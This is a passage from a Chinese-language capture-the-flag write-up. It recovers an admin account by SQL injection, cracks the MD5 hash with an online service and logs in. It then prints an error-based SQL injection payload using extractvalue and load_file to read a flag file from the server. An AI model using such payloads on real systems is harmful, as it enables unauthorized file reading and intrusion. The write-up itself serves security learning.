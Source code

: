   得到`2e503090facfc4337207f|545`

  与上一步拼接起来即为：`username|password|email`：`ichuqiu|318a61264482e503090facfc4337207f|545`

把密文丢到在线MD5解密得密码：

![ctf-20180416222248848](/images/posts/ctf/ctf-20180416222248848.png)

终于获得：

`username`：`ichuqiu`

`password`：`Myxss623`

输入用户名密码，登陆后台，查看file：

![ctf-20180416222615677](/images/posts/ctf/ctf-20180416222615677.png)

还是得通过**SQL注入**`load_file`来获取flag

```bash
' and extractvalue(1,concat(0x5c,(select load_file('/var/www/html/f13g_ls_here.txt'))))#
```
